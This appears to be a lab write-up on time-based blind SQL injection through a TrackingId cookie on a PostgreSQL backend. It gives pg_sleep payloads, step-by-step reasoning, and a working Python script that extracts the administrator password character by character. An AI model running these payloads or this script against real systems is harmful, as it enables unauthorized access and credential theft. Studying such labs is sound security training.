 * Title:  Blind SQL injection with time delays and information retrieval

* Goal: Log in as the administrator user.

* Vulnerable Part : In the cookies. Specifically, right after "TrackingId"

* Payload Used: 

``` ; SELECT CASE WHEN(1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END-- ```, 

``` ; SELECT CASE WHEN(1=2) THEN pg_sleep(5) ELSE pg_sleep(0) END-- ```,

``` ; SELECT CASE WHEN(username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users-- ```, 

``` ; SELECT CASE WHEN(username='administrator' AND LENGTH(password)=20) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users-- ```, 

``` ; SELECT CASE WHEN(username='administrator' AND SUBSTRING(password, 1, 1) > 'm') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users-- ```

**NOTICE: If you are using Burp Suite to inject this payload, make sure to encode them in URL. To do that, you select it and ```ctrl + u```**

**NOTICE: The backend is written in PostgreSQL**

* Steps:

  1. Inject : ``` ; SELECT CASE WHEN(1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END-- ```. What this does is, it delays the response by 5 seconds if the condition is true, in this case 1=1.

  2. Inject : ``` ; SELECT CASE WHEN(1=2) THEN pg_sleep(5) ELSE pg_sleep(0) END-- ```. And if the condition is not true, the response comes instantly.
 
  3. Inject : ``` ; SELECT CASE WHEN(username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users-- ```. If the condition is true (that means, if the users table exists
  and the username 'administrator' is in it), it delays the response. Otherwise, it won't delay the response.

  4. Inject : ``` ; SELECT CASE WHEN(username='administrator' AND LENGTH(password)=20) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users-- ```. If the username is 'administrator' and
     the password is 20 characters, you guessed it right, it delays the response. In the real world scenario, you might need to use binary search to get the exact length (For example,
     ...```LENGTH(password) > 10```, response delayed which means condition is true, ...```LENGTH(password) > 25```, instant response which means condition is false,
     ...```LENGTH(password) > 23```, instant response which means condition is false... something like this. But the length of the password is 20)

  5. Inject : ``` ; SELECT CASE WHEN(username='administrator' AND SUBSTRING(password, 1, 1) > 'm') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users-- ```.
     This payload detects if the first character of the password is greater than 'm'. If yes we try a letter greater than 'm'(like 'p' or something).
     But I don't recommend doing this for the whole password, so we're just gonna script it using python.

Python Script: 

```
        # Import necessary modules for HTTP requests, URL encoding, and system operations
    import urllib
    import urllib3
    import sys
    import requests
    
    # Suppress SSL certificate warnings (useful when targeting labs with self-signed certs)
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    
    def password_injector(url, base_tracking_id, session_id):
        # Initialize the variable to store the extracted password
        password_extracted = ""
    
        # Define the character set to brute-force each character of the password
        charset = "0123456789abcdefghijklmnopqrstuvwxyz"
    
        # Loop through each position in the password (assuming max length of 20)
        for i in range(1, 21):
            # Try each character in the charset for the current position
            for ch in charset:
                # Craft a time-based blind SQL injection payload:
                # If the character at position i matches `ch`, delay the response by 8 seconds
                payload = f"' ; SELECT CASE WHEN(username='administrator' AND SUBSTRING(password, {i}, 1) = '{ch}') THEN pg_sleep(8) ELSE pg_sleep(0) END FROM users-- "
    
                # URL-encode the payload to safely inject it into the TrackingId cookie
                payload_encoded = urllib.parse.quote(payload)
    
                # Construct the cookies with the injected payload
                cookies = {
                    "TrackingId": base_tracking_id + payload_encoded,
                    "session": session_id
                }
    
                # Send the HTTP request with the malicious cookies
                response = requests.get(url, cookies=cookies, verify=False)
    
                # If the response took ≥8 seconds, the guessed character is correct
                if int(response.elapsed.total_seconds()) >= 8:
                    password_extracted += ch  # Append the correct character
                    sys.stdout.write('\r' + password_extracted)  # Display progress
                    sys.stdout.flush()
                    break  # Move to the next character position
    
                else:
                    # Show the current guess (even if incorrect) for visual feedback
                    sys.stdout.write('\r' + password_extracted + ch)
                    sys.stdout.flush()
    
        # Print the final extracted password
        print(f"\n[+] EXTRACTED PASSWORD : {password_extracted}")
    
    def main():
        # Ensure correct number of command-line arguments
        if len(sys.argv) != 4:
            print(f"[+] Usage: {sys.argv[0]} <url> TrackingId SessionId")
            print(f"[+] Example : {sys.argv[0]} www.example.com" "nRoouTRuuq9Ate8w" "lwz0qgqnBKdlhlFOXFRxGVA9RHSxdIss")
            sys.exit(-1)
    
        # Parse command-line arguments
        url = sys.argv[1]
        tracking_id = sys.argv[2]
        session_id = sys.argv[3]
    
        # Begin the password extraction process
        print("[+] Retrieving password...")
        password_injector(url, tracking_id, session_id)
    
    # Entry point of the script
    if __name__ == "__main__":
        main()

```

* Takeaway: This write-up shows how timing can be weaponized to extract sensitive data without any visible output.
